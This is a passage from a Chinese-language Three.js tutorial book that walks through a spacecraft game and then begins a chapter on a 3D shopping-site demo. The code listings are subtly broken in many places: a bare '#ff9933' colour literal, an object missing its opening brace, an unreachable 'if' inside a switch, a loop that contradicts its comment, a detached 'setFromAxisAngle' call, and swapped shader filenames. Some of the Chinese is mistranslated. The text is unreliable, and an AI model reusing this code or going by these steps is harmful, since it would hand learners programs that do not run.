请在现有 object 文件夹下创建 shader 文件夹，然后将 `vertexShader` 和 `fragmentShader` 的数据分别复制到 `waterFragmentShader.glsl` 和 `waterVertexShader.glsl` 文件中。

在 `waterFragmentShader.glsl` 文件顶部有一个 `getNoise` 函数。其默认形式如下：

```glsl
vec4 getNoise( vec2 uv ) {
    vec2 uv0 = ( uv / 105.0 ) + vec2(time / 18.0, time / 25.0);
    vec2 uv1 = uv / 109.0-vec2( time / -18.0, time / 32.0 );
    vec2 uv2 = uv / vec2( 8807.0, 9903.0 ) + vec2( time / 102.0, time / 99.0 );
    vec2 uv3 = uv / vec2( 1093.0, 1029.0 ) - vec2( time / 108.0, time / -115.0 );
    vec4 noise = texture2D( normalSampler, uv0 ) +
        texture2D( normalSampler, uv1 ) +
        texture2D( normalSampler, uv2 ) +
        texture2D( normalSampler, uv3 );
    return noise * 0.75 - 2.0;
}
```

我们将在 GLSL 文件中添加参数，以便在运行时调整此偏移量，使其能从游戏代码中配置。为此，需用以下函数替换原函数：

```glsl
// 可在此处查看
uniform float speed;
vec4 getNoise(vec2 uv) {
    float offset;
    if (speed == 0.5){
        offset = time / 15.0;
    }
    else {
        offset = speed;
    }
    vec2 uv3 = uv / vec2(52.0, 52.0) - vec2(speed / 1500.0, offset);
    vec2 uv0 = vec2(0, 0);
    vec2 uv1 = vec2(0, 0);
    vec2 uv2 = vec2(0, 0);
    vec4 noise = texture2D(normalSampler, uv3) +
    texture2D(normalSampler, uv0) +
    texture2D(normalSampler, uv1) +
    texture2D(normalSampler, uv2);
    return noise * 0.75 - 2.0;
}
```

我们将发现此 GLSL 文件包含新变量：speed。通过修改该变量可营造速度感。现在需在 `game.ts` 中配置水体设置。请在文件顶部添加以下变量：

```javascript
// 可在此处查看
const waterGeometry = new PlaneGeometry(1000, 1000);
const water = new Water(
    waterGeometry,
    {
        textureWidth: 530,
        textureHeight: 530,
        waterNormals: new TextureLoader().load('static/normals/filename.jpeg', function (texture) {
            texture.wrapS = texture.wrapT = MirroredRepeatWrapping;
        }),
        sunDirection: new Vector3(),
        sunColor: #ff9933,
        waterColor: #5C6F65,
        distortionScale: 3.9,
        fog: scene.fog !== undefined
    }
);
```

接着需在 `init` 函数中配置水体平面的旋转与位置，如下所示：

```javascript
// 可在此处查看
// 水体
water.rotation.x = -Math.PI / 4;
water.rotation.z = 0;
scene.add(water);
```

这将确保海洋旋转方向正确，且完整实现了从 Three.js 仓库学到的编码。²

## 构想天空

Three.js 包含效果逼真的天空系统，我们可免费应用于应用中。在 Three.js 示例页面可查看此效果。³

为项目添加天空十分简单；只需将其放入场景、设定尺寸，然后调整参数控制外观即可。在前述的 `init` 函数中，我们将天空添加到场景并自定义视觉效果：

```javascript
// 可在此处查看
const sky = new Sky();
sky.scale.setScalar(1000); // 定义天空盒尺寸
scene.add(sky); // 将天空添加到场景
// 定义控制天空外观的变量
const skyUniforms = sky.material.uniforms;
skyUniforms['turbidity'].value = 15;
skyUniforms['rayleigh'].value = 4;
skyUniforms['mieCoefficient'].value = 0.009;
skyUniforms['mieDirectionalG'].value = 0.6;
const parameters = {
    elevation: 5,
    azimuth: 120
};
const pmremGenerator = new PMREMGenerator(renderer);
const phi = MathUtils.degToRad(80 - parameters.elevation);
const theta = MathUtils.degToRad(parameters.azimuth);
sun.setFromSphericalCoords(2, phi, theta);
sky.material.uniforms['sunPosition'].value.copy(sun);
(water.material as ShaderMaterial).uniforms['sunDirection'].value.copy(sun).normalize();
scene.environment = pmremGenerator.fromScene(sky as any).texture;
(water.material as ShaderMaterial).uniforms['speed'].value = 2.2;
```

## 最终场景规划

我们首个场景设置的最后步骤是添加灯光及飞船与母舰模型：

```javascript
// 可在此处查看
// 为飞船设置合适比例
spacecraftModel.scale.set(1.3, 1.3, 1.3);
scene.add(spacecraftModel);
scene.add(mothershipModel);
// 设置母舰模型的比例与位置（位于玩家上方）
mothershipModel.position.y = 250;
mothershipModel.position.z = 150;
mothershipModel.scale.set(12, 12, 12);
sceneConfiguration.ready = true;
```

现在我们拥有了优美的水体与飞船场景，但仍缺乏将其转化为游戏的要素。为此，我们需要构建基础参数来控制游戏，并允许玩家朝着特定目标推进。我们将在 `game.ts` 文件顶部添加 `sceneConfiguration` 变量，该变量将帮助我们追踪场景中的对象状态：

```javascript
// 可在此处查看
export const sceneConfiguration = {
  /// 场景是否就绪
  ready: false,
  /// 摄像机是否从初始圆形轨迹移动至飞船后方
  cameraMovingToStartPosition: false,
  /// 飞船是否向前移动
  spacecraftMoving: false,
  // backgroundMoving: false,
  /// 已收集的游戏数据
  data:
    /// 玩家在运行期间获得了多少水晶？
    crystalsCollected: 1,
    /// 玩家在运行期间收集的护盾数量
    shieldsCollected: 0,
  },
  /// 当前关卡长度（随关卡提升而增加）
  courseLength: 700,
  /// 玩家当前关卡进度（初始化为1）
  courseProgress: 1,
  /// 关卡是否已完成
  levelOver: false,
  /// 当前关卡设为1
  level: 1,
  /// 提供关卡完成度（范围0.0至1.0）
  coursePercentComplete: () => (sceneConfiguration.courseProgress / sceneConfiguration.courseLength),
  /// 开场动画是否播放（注视飞船时的环形摄像机运动）
  cameraStartAnimationPlaying: false,
  /// 场景中的“背景元素”数量是多少？（悬垂物）
  backgroundBitCount: 0,
}
```


```typescript
/// 场景中“挑战行”的数量是多少？
    challengeRowCount: 0,
    /// 飞船的初始当前速度
    speed: 1.0
```

现在我们必须为玩家的当前关卡进行必要的初始化。这个场景设置函数至关重要，因为它将在用户开始新关卡时被调用。因此，我们需要重置飞船的位置并清理任何正在使用的旧资产。我为每一行添加了一些注释，以便你可以看到它的作用：

```typescript
// 可在此处查看
export const sceneSetup = (level: number) => {
    // 移除对之前“挑战行”和背景信息的所有引用。
    sceneConfiguration.challengeRowCount = 1;
    sceneConfiguration.backgroundBitCount = 1;
    // 对于启动动画，将摄像机位置返回到飞船正前方稍前处。
    camera.position.z = 80;
    camera.position.y = 17;
    camera.position.x = 17;
    camera.rotation.y = 5.5;
    // 将起始港纳入场景（带有岩石的沙岸）
    scene.add(starterBay);
    // 将起始港的位置设置在飞船附近。
    starterBay.position.copy(new Vector3(15, 5, 520));
    // 为了播放关卡，将飞船模型返回到正确的对齐位置。
    spacecraftModel.rotation.x = Math.PI;
    spacecraftModel.rotation.z = Math.PI;
    // 将飞船模型的位置设置在起始港内
    spacecraftModel.position.z = 90;
    spacecraftModel.position.y = 30;
    spacecraftModel.position.x = 1;
    // 删除任何当前的挑战行
    challengeRows.forEach(x => {
        scene.remove(x.rowParent);
    });

    // 从场景中消除任何现有的环境元素
    environmentBits.forEach(x => {
        scene.remove(x);
    });

    // 将数组的持续时间设置为0会从数组中移除所有值。
    environmentBits.length = 0;
    challengeRows.length = 0;

    // 在背景中显示各种挑战行和背景元素。
    for (let i = 0; i < 60; i++) {
        // debugger;
        addChallengeRow(sceneConfiguration.challengeRowCount++);
        addBackgroundBit(sceneConfiguration.backgroundBitCount++);
    }

    // 将变量恢复到原始状态。
    // 这表示摄像机从当前位置移开的动画未在执行。
    sceneConfiguration.cameraStartAnimationPlaying = false;

    // 关卡尚未完成
    sceneConfiguration.levelOver = false;

    // 飞船未返回母舰。
    spacecraftModel.userData.flyingAway = false;

    // 因为我们尚未开始当前关卡，所以将赛道的当前进度重置为0。
    sceneConfiguration.courseProgress = 0;

    // 我们当前的关卡决定了赛道的长度
    sceneConfiguration.courseLength = 1500 * level;

    // 将我们在本关卡中收集的物品数量重置为零。
    sceneConfiguration.data.shieldsCollected = 0;
    sceneConfiguration.data.crystalsCollected = 0;

    // 更新UI以显示我们已获取的物品数量，直到达到零。
    crystalUiElement.innerText = String(sceneConfiguration.data.crystalsCollected);
    shieldUiElement.innerText = String(sceneConfiguration.data.shieldsCollected);

    // 在UI中设置当前关卡ID号
    document.getElementById('levelIndicator')!.innerText = `LEVEL ${sceneConfiguration.level}`;

    // 场景准备工作已完成，现在场景可用。
    sceneConfiguration.ready = true;
}
```

## 包含游戏逻辑

我们的游戏将在两种设备上运行：台式计算机和移动电话。为此，我们必须允许两种不同类型的输入：

-   打字机（即键盘上的左右键）
-   触摸屏显示器（通过在屏幕上显示操纵杆来左右移动飞船）

让我们开始配置这些。

### 通过键盘输入

我们对游戏了如指掌。我们将在`Spacecraftgame.ts`中添加以下变量，以跟踪键盘上的左键或右键是否被按下：

```typescript
let leftPressed = false;
let rightPressed = false;
```

然后，我们将在`init`函数中注册按键按下和释放事件，以分别调用`onKeyDown`和`onKeyUp`例程：

```typescript
document.addEventListener('keydown', onKeyDown, false);
document.addEventListener('keyup', onKeyUp, false);
```

最后，我们将指定按下这些键时键盘输入的处理方式：

```typescript
// 可在此处查看
function onKeyDown(event: KeyboardEvent) {
    console.log('keypress');
    let keyCode = event.which;
    if (keyCode == 37) { // 左箭头键
        leftPressed = true;
    } else if (keyCode == 39) { // 右箭头键
        rightPressed = true;
    }
}

function onKeyUp(event: KeyboardEvent) {
    let keyCode = event.which;
    if (keyCode == 37) { // 左箭头键
        leftPressed = false;
    } else if (keyCode == 39) { // 右箭头键
        rightPressed = false;
    }
}
```

### 通过触摸屏输入

因为我们的移动用户无法使用键盘，我们将使用`nippleJS`在屏幕上创建一个操纵杆，并使用操纵杆的输出来控制飞船在屏幕上的位置。在我们的`init`函数中，我们将通过查找屏幕上非零的触摸点数来确定设备是否为触摸设备。如果是这种情况，我们将创建操纵杆，但我们也将在玩家释放操纵杆后重置飞船的移动为零：

```typescript
// 可在此处查看
if (isTouchDevice()) {
    // 注册UI区域作为我们的操纵杆。
    let touchZone = document.getElementById('joystick-zone');
    if (touchZone != null) {
        // 创建操纵杆管理器
        joystickManager = joystick.create({
            zone: document.getElementById('joystick-zone')!,
        });
        // 设置当操纵杆移动时发生的情况。
        joystickManager.on("move", (event, data) => {
            positionOffset = data.vector.x;
        });
        // 当操纵杆不再被操作时，停止移动飞船。
        joystickManager.on('end', (event, data) => {
            positionOffset = 0;
        });
    }
}
```

我们在`animate`函数中跟踪按下左键或右键时要执行的操作，或者操纵杆是否正在使用。我们还限制了飞船的左右位置，以防止它完全移出屏幕：

```typescript
// 可在此处查看
// 如果按下左箭头，飞船将向左移动。
if (leftPressed) {
    spacecraftModel.position.x -= 2.0;
}
// 如果按下右箭头，飞船将向右移动。
if (rightPressed) {
    spacecraftModel.position.x += 2.5;
}
// 如果正在使用操纵杆，相应地更新飞船的精确位置。
spacecraftModel.position.x += positionOffset;
// 将飞船的最终位置限制在允许的范围内。
spacecraftModel.position.x = clamp(spacecraftModel.position.x, -25, 30);
```

### 场景中移动的对象

正如我们刚才讨论的，飞船在我们的场景中保持静止，但对象会向它移动。随着用户继续玩游戏，这些对象的移动速度会稳步增加，从而增加关卡的难度。我们希望在动画循环期间继续将这些对象移向玩家。我们希望在这些对象离开玩家视野时将其从场景中移除，以免浪费玩家计算机的资源。

此功能可以在我们的渲染循环中设置如下：

```typescript
// 可在此处查看
if (sceneConfiguration.spacecraftMoving) {
    // 确定飞船是否与场景中的任何对象发生碰撞。
    detectCollisions();

    // 将岩石移近玩家。
    for (let i = 0; i < environmentBits.length; i++) {
        let mesh = environmentBits[i];
        mesh.position.z += sceneConfiguration.speed;
    }

    // 将挑战行移向玩家
    for (let i = 0; i < challengeRows.length; i++) {
        challengeRows[i].rowParent.position.z += sceneConfiguration.speed;
        // challengeRows[i].rowObjects.forEach(x => {
        //     x.position.z += speed;
        // });
    }

    // 如果最远的岩石距离小于某个距离，在水平线上创建一个新的。
    if ((!environmentBits.length || environmentBits[0].position.z > -1500) &&
        !sceneConfiguration.levelOver) {
        addBackgroundBit(sceneConfiguration.backgroundBitCount++, true);

        // 如果最远的挑战行距离小于给定距离，在水平线上创建一个新的挑战行。
        if ((!challengeRows.length || challengeRows[0].rowParent.position.z > -1500) && 
            !sceneConfiguration.levelOver) {
            addChallengeRow(sceneConfiguration.challengeRowCount++, true);
        }
    }

    // 如果起始港尚未被移除，则将其移向玩家。
    if (starterBay != null) {
        starterBay.position.z += sceneConfiguration.speed;
    }
}
```


我们可以观察到这次调用包含了以下函数：

- detectCollisions
- addBackgroundBit
- addChallengeRow

让我们来看看这些函数在游戏中具体起什么作用。

### detectCollisions

碰撞检测是游戏的至关重要的一部分。如果没有它，我们就无法知道我们的太空飞船是否击中了目标，或者是否撞到了岩石而需要减速。这就是为什么碰撞检测在我们的游戏中如此重要。通常情况下，会使用物理引擎来检测场景中物体之间的碰撞，但 Three.js 并不内置物理引擎。

这并不是说 Three.js 没有物理引擎可用。当然有，但就我们的目的而言，不需要安装一个完整的物理引擎来确定太空飞船是否与另一个物体碰撞。本质上，我们想知道的是“我的太空飞船模型此时是否与屏幕上的任何其他模型相交？”此外，我们还必须根据撞击的对象做出不同的反应。例如，如果玩家不断地将飞船撞向岩石，那么在承受一定数量的伤害后，必须结束该关卡。

我们可以通过编写一个函数来检查太空飞船与场景物品的交集来实现这一点。我们将根据玩家撞击的物体做出不同的反应。

这段代码将放置在游戏目录中名为 `collisionDetection.ts` 的文件中：

```typescript
// Can be viewed here
export const detectCollisions = () => {
    // If level is completed, don't detect collisions
    if (sceneConfiguration.levelOver) return;
    // Create a box the width and height of our model using the measurements of our spacecraft.
    // This box does not exist in the real world; it is only a set of coordinates that describe the box
    // in world space.
    const spacecraftBox = new Box3().setFromObject(spacecraftModel);
    // For each challenge row that appears on the screen.
    challengeRows.forEach(x => {
        // alter the row's and its children's global position matrix
        x.rowParent.updateMatrixWorld();
        // Following that, for each object within each challenge row.
        x.rowParent.children.forEach(b => {
            b.children.forEach(c => {
                // make a box the width and height of the object
                const box = new Box3().setFromObject(c);
                // Check to see if the box containing the barrier overlaps (or intersects) with our spaceship.
                if (box.intersectsBox(spacecraftBox)) {
                    // If it does, get the box's centre position.
                    let destructionPosition = box.getCenter(c.position);
                    // Queue up the destruction animation to play
                    playDestructionAnimation(destructionPosition);
                    // Remove the impacted object from the parent.
                    // This removes the object from the scene.
                    b.remove(c);

                    // Determines whether we collided
                    // with any object ( shield or rock).
                    if (b.userData.objectType !==
                        undefined) {
                        let type = b.userData.
                            objectType as ObjectType;
                        switch (type) {
                            // If the item was a
                            // rock...
                            case ObjectType.ROCK:
                                // eliminate one
                                // shield from the players' score
                                sceneConfiguration.
                                    data.shieldsCollected--;
                                // Update the UI with
                                // the new count of shields
                                shieldUiElement.
                                    innerText = String(sceneConfiguration.data.
                                        shieldsCollected);
                                // If the player has
                                // less than 0 shields...
                                if
                                (sceneConfiguration.data.shieldsCollected <= 0) {
                                    // ...add the
                                    // 'danger' CSS class to make the text red (if it's not
                                    // already there)
                                    if
                                    (!shieldUiElement.classList.contains('danger')) {
                                        shieldUiElement.classList.add('danger');
                                    }
                                } else { //Otherwise,
                                    // if it's more than 0 shields, remove the danger CSS
                                    // class
                                    // so the text
                                    // goes back to being white
                                    shieldUiElement.
                                        classList.remove('danger');
                                }
                                break;

                            // If the ship has
                            // sustained too much damage, and has less than -6
                            // shields…
                            if (sceneConfiguration
                                .data.shieldsCollected <= -6) {
                                // …end the
                                // scene
                                endLevel(true);
                            }
                            break;

                            // If the object is crystal…
                            case ObjectType.CRYSTAL:
                                // Modify the UI to reflect the new crystal tally, and
                                // increase the
                                // number of already gathered rocks
                                crystalUiElement.innerText =
                                    String(++sceneConfiguration.data.crystalsCollected);
                                break;

                            // If the object is shield
                            case ObjectType.
                                SHIELD_ITEM:
                                // Modify the UI with the new count of shields, and
                                // increment the count of
                                // currently collected shields
                                shieldUiElement.innerText =
                                    String(++sceneConfiguration.data.shieldsCollected);
                                break;
                        }
                    }
                }
            });
        });
    });
};
```

现在只需要创建一个简单的动画，在用户发生碰撞时播放。该函数将接收碰撞的起点，并从该点创建一些方块。最终效果将如下所示。

为了实现这一点，我们必须在碰撞点周围以圆圈形式生成方块，并将其向外动画化，使其看起来像是向外爆炸。为此，我们将在 `collisionDetection.ts` 文件中包含以下代码：

```typescript
// Can be viewed here
const playDestructionAnimation = (spawnPosition: Vector3) => {
    // Create six boxes
    for (let i = 0; i < 8; i++) {
        // Our destruction 'bits' will be blue with some transparency
        let destructionBit = new Mesh(new BoxGeometry(2, 2, 2), new MeshBasicMaterial({
            color: 'blue',
            transparent: true,
            opacity: 0.9
        }));
        // A 'lifetime' attribute will be assigned to each destruction bit object in the scene
        // When a frame is drawn to the screen, this property is increased. We check if this is greater than 800 in our animation loop, and if it is, we remove the item
        destructionBit.userData.lifetime = 0;
        // Set the box's initial position
        destructionBit.position.set(spawnPosition.x, spawnPosition.y, spawnPosition.z);
        // Build a mixer for the object's animations
        destructionBit.userData.mixer = new AnimationMixer(destructionBit);
        // initiate the objects in a circle around the spacecraft
        let degrees = i / 50;
        // Determine where on the circle this specific destruction bit should be produced
        let spawnX = Math.cos(radToDeg(degrees)) * 20;
        let spawnY = Math.sin(radToDeg(degrees)) * 20;

        // Make a VectorKeyFrameTrack to animate this box from
        // its initial position to its final
        // 'outward' position (so it looks like the boxes are
        // exploding from the ship)
        let track = new VectorKeyframeTrack(
            'position', [0, 1.3], [
                spacecraftModel.position.x, // x 2
                spacecraftModel.position.y, // y 2
                spacecraftModel.position.z, // z 2
                spacecraftModel.position.x + spawnX, // x 3
                spacecraftModel.position.y, // y 3
                spacecraftModel.position.z + spawnY, // z 3
            ]);
        // Create an animation clip with our
        // VectorKeyFrameTrack
        const animationClip = new AnimationClip('animateIn',
            15, [track]);
        const animationAction = destructionBit.
            userData.mixer.clipAction(animationClip);
        // Only play the animation once
        animationAction.setLoop(LoopOnce, 2);
        // Leave the objects in their final positions (don't
        // restore them to the starting position) when you're
        // done.
        animationAction.clampWhenFinished = true;
        // Watch the animation now
        animationAction.play();
        // To the destruction bit, add a Clock. This
        // is used in the render loop to tell ThreeJS how far
        // to move this object for this frame.
        destructionBit.userData.clock = new Clock();
        // Add the element of destruction to the
        // scene.
        scene.add(destructionBit);
        // To keep track of them, add the destruction bit to
        // an array
        destructionBits.push(destructionBit);
    }
};
```

大功告成：碰撞检测已实现，并且在物体被摧毁时还配有精美的动画。


## 84 ■ 征服 JavaScript：Three.js

### addBackgroundBit

随着场景展开，我们将在玩家两侧添加一些悬崖，使其感觉移动受到了正确的约束。为了机械化地将岩石添加到用户的右侧或左侧，我们使用了取模运算符：

```typescript
export const addBackgroundBit = (count: number,
    HorizonSpawn: boolean = false) => {
    // Unless we're blooming on the horizons, make
    // sure we are away from the player.
    // Alternately, scatter the rocks in the
    // distances at periodic intervals
    let zOffset = (HorizonSpawn ? -2000 : -(90 *
        count));
    // Make an exact replica of our original rock model
    let thisRock = cliffsModel.clone();
    // Set the scale appropriately for the scene
    thisRock.scale.set(0.05, 0.05, 0.05);
    // Position the rock to the left of the user if
    // the row we're adding is divisible by three,
    // otherwise, position it to the right of the user.
    thisRock.position.set(count % 3 == 0 ? 90 - Math.
        random() : -90 - Math.random(), 0, zOffset);
    // Rotate the rock to a better angle
    thisRock.rotation.set(MathUtils.degToRad(-80), 0,
        Math.random());
    // Finally, fix the rock to the scene
    scene.add(thisRock);
    // Fix the rock to initial stage of the
    // environmentBits array to keep track of them
    environmentBits.unshift(thisRock); // fix at first stage of array
}
```

### addChallengeRow

随着游戏进行，我们需要向场景中添加我们的“挑战行”。这些是包含岩石、水晶或护盾物品的行。每次形成这些新行时，我们都会随机为每行分配岩石、水晶和护盾。

在前面的示例中，第1、2和4格没有添加任何东西；然而，第3和5格分别有一个水晶和一个护盾物品。为了实现这一点，我们将挑战行分为五个独立的格子。我们根据随机算法的结果在每个格子中生成特定的物品，如下所示：

```typescript
export const addChallengeRow = (count: number,
    horizonSpawn: boolean = false) => {
    // Calculate how far this challenge row should be
    // away
    let zOffset = (horizonSpawn ? -2000 : -(count *
        90));
    // For the objects, make a Group. This will serve
    // as the object's parent
    let rowGroup = new Group();
    rowGroup.position.z = zOffset;
    for (let i = 0; i < 6; i++) {
        // Calculate a random number between 1 and 15
        const random = Math.random() * 15;
        // If it's less than 3, create a crystal
        if (random < 3) {
            let crystal = addCrystal(i);
            rowGroup.add(crystal);
        }
        // If it's less than 6, spawn a rock
        else if (random < 6) {
            let rock = addRock(i);
            rowGroup.add(rock);
        }
        // but if it's more than 14, spawn a shield
        else if (random > 14) {
            let shield = addShield(i);
            rowGroup.add(shield);
        }
    }
    // To the task, add the row
    // To keep track of it and clean it up later, we've
    // created a Rows array
    challengeRows.unshift({rowParent: rowGroup, index:
        sceneConfiguration.challengeRowCount++});
    // Finally add the row to the scene
    scene.add(rowGroup);
}
```

上述任何链接都将带你进入岩石、水晶或护盾的创建函数。

## 渲染循环的最终调整

以下是我们必须在渲染循环中完成的最后任务：

- 将收集到的物品中的垃圾移除，并将其运输到飞船。
- 如果用户完成关卡，显示“飞离”动作和关卡报告。
- 如果飞船正在“飞离”，则调整摄像机以观察飞船，以便用户看到它飞向母舰。

为了支持此功能，我们可以在渲染函数的末尾添加以下代码：

```typescript
// to reposition the current bits on the screen and
// shift them toward the spacecraft, call the function
// so it looks like the spacecraft is collecting them
moveCollectedBits();

// If the spacecraft's progress equals the length of
// the course...
if (sceneConfiguration.courseProgress >=
    sceneConfiguration.courseLength) {
    // ...make sure we haven't begun the level-end
    // procedure yet
    if (!spacecraftModel.userData.flyingAway) {
        // ...and end the level
        endLevel(false);
    }
}

// If the level end-scene is playing...
if (spacecraftModel.userData.flyingAway) {
    // Rotate the camera to look at the spacecraft on
    // its return journey to the mothership
    camera.lookAt(spacecraftModel.position);
}
```

我们的渲染循环现在完成了。

## 游戏的 UI 设计

当人们首次加载我们的游戏时，他们会看到一些允许他们开始游戏的按钮。这些只是简单的 HTML 组件，我们根据游戏的进展以编程方式显示或隐藏它们。问号图标向玩家介绍游戏剧情，并包含如何游玩的说明。它还包括我们模型的（极其重要！）许可证。点击红色按钮开始游戏。当我们按下红色播放按钮时，摄像机旋转并移动到飞船后方，为玩家准备好场景开始。

在我们的场景 `init` 方法中，我们为此按钮的 onClick 处理程序注册事件以完成此操作。要制作旋转和移动功能，请按照以下步骤操作：

- 获取摄像机的当前位置和旋转。
- 获取摄像机的未来位置和旋转。
- 创建一个 KeyframeTrack 以从两个游戏位置控制移动和旋转。
- 将这些分配给一个混合器并开始混合。

为了实现这一点，我们将在 `init` 函数中包含以下代码：

```typescript
// Can be viewed here
startGameButton.onclick = (event) => {
    // Specifies that motion from the camera's initial
    // position to the location of the spacecraft is active
    sceneConfiguration.cameraStartAnimationPlaying = true;
    // If the shield item had yellow wording on it
    // from the preceding stage, eliminate it
    shieldUiElement.classList.remove('danger');
    // Display the telltale sign (that shows crystals
    // collected, etc.)
    document.getElementById('headsUpDisplay')!.
        classList.remove('hidden');
    // Create an animation mixer on the spacecraft
    camera.userData.mixer = new
        AnimationMixer(camera);
```

```typescript
// Create a motion from the actual state of the camera
// to the positioning of the spaceship behind this one.
let track = new VectorKeyframeTrack('.position',
    [0, 2], [
        camera.position.x, // x 4
        camera.position.y, // y 4
        camera.position.z, // z 4
        0, // x 5
        50, // y 5
        150, // z 5
    ], InterpolateSmooth);
```

```typescript
// Build a Quaternion revolution for the camera's
// "wingers" location
let identityRotation = new Quaternion();
setFromAxisAngle(new Vector3(-2, 1, 1), .5);
```

```typescript
// Make an animation clip that starts with the
// camera's current rotation and concludes with the
// camera being turned around and rotated towards
// the game space
let rotationClip = new QuaternionKeyframeTrack(
    '.quaternion', [1, 5], [
        camera.quaternion.x, camera.quaternion.y, camera.
            quaternion.z, camera.quaternion.w,
        identityRotation.x, identityRotation.y,
            identityRotation.z, identityRotation.w
    ]);
```

```typescript
// Both KeyframeTracks should be associated with an
// AnimationClip so that they play at the same time
const animationClip = new AnimationClip
    ('animateIn', 5, [track, rotationClip]);
const animationAction = camera.userData.mixer.
    clipAction(animationClip);
animationAction.setLoop(LoopOnce, 2);
animationAction.clampWhenFinished = true;
camera.userData.clock = new Clock();
camera.userData.mixer.addEventListener('finished',
    function () {
        // Ascertain that the camera is pointing in
        // the correct direction
        camera.lookAt(new Vector3(1, -400, -2000));
        // Indicate that the spacecraft has begun moving
```


sceneConfiguration.spacecraftMoving = true;
});
// 立即观看动画
camera.userData.mixer.clipAction(animationClip).play();
// 从视图中移除“起始面板”（其中包含播放按钮）
startPanel.classList.add('hidden');
}

我们还必须为关卡结束时执行的操作设置逻辑，相关必要代码可在此处找到。⁶

## 总结

当你使用Three.js制作游戏时，你可以接触到大量的潜在用户。这是一种极具吸引力的开发和分发游戏的方式，因为用户可以在浏览器中直接游玩，无需在设备上下载或安装任何东西。在本章中我们学到，为广泛的人群创建引人入胜且愉悦的体验是完全可能的。

## 注释

- 1. Three.js-Webgl 海洋。
- 2. Water.js-Three.js, GitHub, Inc.
- 3. Three.js webgl-天空+太阳着色器-Three.js 示例。
- 4. Nipplejs TS-npm。
- 5. 在Three.js中创建游戏-Lewis Cianci, Log Spacecraft。
- 6. Three.js-飞船游戏-flutterfromscratch。

# 应用程序开发 II

## 本章内容

- 使用Three.js的游戏
- 基础与模块

在上一章中，我们学习了如何使用Three.js开发游戏。现在让我们来看另一个应用程序开发案例，它利用了Three.js在3D网页设计中的魅力。

自二十一世纪初以来，网络已成为软件开发最流行的平台，它从一个文档共享平台演变为可扩展应用的家园。动画和游戏产业同样完成了从传统和2D图形/动画向3D的转变。虚拟现实和增强现实最近涌现了大量创新，其中大部分正逐渐走向Web平台。WebGL，一个用于在兼容浏览器中无需插件即可渲染3D视觉效果的JavaScript API，在2011年让网络上的3D成为现实。在此后的几年里，网页设计师们为3D的可能性所着迷。然而，在线3D开发一直在快速推进，已经存在一些相当惊人的实现，范围从主要作为概念验证的“震撼效果”图像，到直接专注于创造绝佳网页体验的刻意3D应用。

一个3D模型由以下元素组成：

- 场景
- 摄像机
- 网格
- 灯光

在我们直接跳转到编码部分之前，我们必须先简要概述一下3D网页设计。正如标题所示，3D网页应用是在三维空间中渲染的网站。在构建一个3D世界时，你的浏览器就像任何其他在线应用一样，需要知道要显示什么以及如何显示。在这种方法中，创建一个场景类似于告诉浏览器你正在准备你的演示。摄像机确立了用户的视角，并告知浏览器我们相对于场景中心的位置。最后，渲染器指示浏览器显示我们构建并放置在场景中的元素。这通过HTML中的“canvas”元素来实现。它的设计目的是塑造和显示动态的、可动画化的插图，供用户交互。人们对此并不满足，于是使用了能够三维控制canvas的WebGL。WebGL是一个跨平台的网络标准，它是一个基于OpenGL ES的低级3D图形API，可以通过HTML5 Canvas元素供ECMAScript使用。

但如果你没有完全理解那意味着什么，请不要担心。我们只需要知道，我们可以使用WebGL创建3D网页。我们可能还需要知道，它通常被认为是一个非常复杂的API，需要大量代码才能完成非常简单的任务。这就引出了Three.js。Three.js是一个JavaScript框架，它充当程序员和WebGL之间的翻译器，使得编写3D代码变得更容易。它主要通过将WebGL抽象为更易于理解的函数和类集来实现这一点。也就是说，当你用Three.js编写代码时，Three.js会在幕后为你编写数十行WebGL代码。

## 使用Three.js构建应用程序

我们将使用Three.js为一个购物网站生成令人惊叹的3D效果。请花点时间在这里查看最终产品。喜欢吗？让我们开始使用Visual Studio，再来一杯咖啡。

### 安装与下载

我们将从设置Three.js开始；这篇文章的这部分对新接触Three.js的用户特别有价值，你们将从设置过程中学到东西。然后我们将下载我网站的初始3D文件，并开始导入我们的项目和设置商店。让我们开始吧！

## 代码教程

设置工作并不多；只需确保你从这个链接获取Three.js：下载THREEJS。让我们开始设置我们的项目；现在你只需解压zip文件。只有build文件夹中的Three.js和three.min.js文件对我们很重要，所以复制它们。然后为你的项目新文件夹添加一个JavaScript子目录和一个index.html文件。将之前复制的文件粘贴到JavaScript文件夹中。

### 初始HTML配置

为了建立我们3D画布的初始布局和样式，我们需要向html文件添加一些代码，我们将在下一阶段使用它。
将以下代码添加到index.html文件。

```html
<html>
    <head>
        <title>Three.js 3d World</title>
<style>
    body{
        margin: 0;
    }

    canvas{
        width: 90%;
        height: 90%;
    }
</style>
    </head>
    <body>
    </body>
</html>
```

因为我们现在只想在浏览器中查看3D环境，所以可以将画布样式设置为覆盖整个屏幕。

### 构建我们的3D世界

然后我们输入Three.js代码，开始将我们的3D场景添加到网页。index.html文件应该如下所示。

```html
<html>
    <head>
        <title>Three.js 3d World</title>
<style>
    body{
        margin: 1.0;
    }

    canvas{
        width: 90%;
        height: 90%;
    }
</style>
    </head>

    <body>

        <script src="js/three.js"></script>

        <script>
var scene = new THREE.Scene();
var camera = new THREE.PerspectiveCamera(70,window.
innerWidth / window.innerHeight,0.5,1500)

var renderer = new THREE.WebGLRenderer();
renderer.setSize(window.innerWidth, window.
innerHeight);
document.body.appendChild(renderer.domElement);

//游戏逻辑
var update = function(){

};


//绘制场景
var render = function(){
    renderer.render(scene, camera);

};

//运行游戏循环 {更新, 渲染, 重复}
var GameLoop = function(){
    requestAnimationFrame(GameLoop);
    update();
    render();
};

GameLoop();
        </script>
    </body>
</html>
```

使用`var renderer = new THREE.WebGLRenderer();`生成的scene对象代表整个3D世界，包含我们希望用户看到的元素。我们还需要一个摄像机（`var camera = new THREE.PerspectiveCamera(70,window.innerWidth / window.innerHeight,0.5,1500)`），这是一个虚拟摄像机，用户将通过它来观察世界，它可以是透视摄像机或正交摄像机。在这个场景中，我们将使用透视摄像机。`renderer.setSize(window.innerWidth, window.innerHeight)`渲染器用于将摄像机所见绘制到一个画布（即一个平面）上。它的domElement属性允许我们访问这个画布，我们随后通过`document.body.appendChild(renderer.domElement)`将其添加到网站中。

每一帧，`var update = function ()`上的update函数都会运行，允许我们改变世界的状态。我们在运行update函数后调用render方法，向用户展示新的世界。这在`update()`和`render()`行中发生。为了允许此功能每秒被多次调用，我们使用requestAnimationFrame（`requestAnimationFrame(GameLoop)`）（也称为帧）。这种调用序列在3D应用程序中被称为GameLoop。
